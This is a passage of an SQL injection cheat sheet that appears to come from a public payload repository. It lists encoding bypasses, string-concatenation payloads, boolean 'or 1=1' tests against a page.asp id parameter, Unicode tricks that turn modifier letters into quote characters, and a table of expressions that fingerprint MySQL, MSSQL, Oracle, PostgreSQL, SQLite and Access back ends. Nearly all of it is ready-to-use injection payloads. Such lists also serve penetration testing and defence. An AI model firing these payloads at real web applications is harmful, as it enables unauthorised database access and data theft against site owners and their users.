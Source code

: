 Multiple encoding

```sql
%%2727
%25%27
```

Merging characters

```sql
`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP
```

Logic Testing

```sql
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

Weird characters

```sql
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

## DBMS Identification

```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
